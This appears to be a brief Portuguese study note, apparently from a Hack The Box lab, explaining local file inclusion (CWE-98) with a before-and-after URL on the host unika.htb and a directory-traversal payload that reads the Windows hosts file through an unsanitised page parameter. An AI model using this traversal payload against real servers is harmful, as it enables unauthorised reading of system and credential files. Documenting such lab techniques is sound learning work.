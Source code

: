 # CWE-98 File Inclusion
## (LFI) Local file Inclusion
Aceder aos ficheiros de um servidor a partir de um URL não sanetizado
**DE**
http://unika.htb/index.php?page=french.html
**PARA**
http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
	Paylaod:../../../../../../../../../windows/system32/drivers/etc/hosts